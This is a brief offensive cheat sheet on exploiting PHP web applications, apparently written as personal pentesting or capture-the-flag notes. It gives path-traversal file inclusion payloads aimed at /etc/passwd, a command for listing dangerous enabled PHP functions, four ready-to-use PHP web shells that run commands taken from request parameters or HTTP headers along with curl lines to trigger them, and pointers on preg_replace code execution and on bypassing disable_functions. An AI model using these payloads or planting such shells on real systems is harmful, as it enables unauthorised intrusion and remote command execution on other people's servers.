 PHP


## Check for registered php stream

- with a lfi you can do some tricks : example :```?configfile=../../../../../../../etc/passwd```

- You may need to add %00 at the end.

- if file is allowed : ```=file:///etc/passwd```

data, php ...

https://dzone.com/articles/the-powerful-resource-of-php-stream-wrappers

---

## Function

- Could be helpful : ```system```, ```shell_exec```

- Know which are enabled : ```php -r 'print_r(get_defined_functions());' | grep -E ' (system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)'<?php print_r(get_defined_functions()); ?>```

---

## Execute command :

1.
```
<?php $_SERVER['HTTP_LANG']($_SERVER['HTTP_ACCEPT-LANGUAGE']); ?>

curl -H "Lang: system" -H "Accept-Language: <cmd>" ...
```

2. 
```
<?php system($_SERVER['HTTP_LANG']); ?>
curl -H "Lang: <cmd>"...
```

3.
```
<?php system($_GET['cmd']);?>
http://url/fichier/?cmd=
```

4.
```
<?php system($_REQUEST['cmd']); ?>

file.php&cmd=whoami
```

5. The only limitation is your brain. Try hard !

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/


---

## Preg_replace :

Experimenting with the functionality of the VPNGenerator, it is easy  to spot what it does. A placeholder string in the VPN generator window  is substituted for a custom input via preg_replace() php function. Older implementations of preg_replace() are vulnerable to a remote command execution using \e  specifier if you know how to approach it! I suggest doing your own  research on the function if you are unfamiliar with php. Here are some  links to help you:
  • https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
  • http://www.madirish.net/402
  • http://php.net/manual/en/function.preg-replace.php
 
 ---
 
## Bypass disable_functions

  https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html
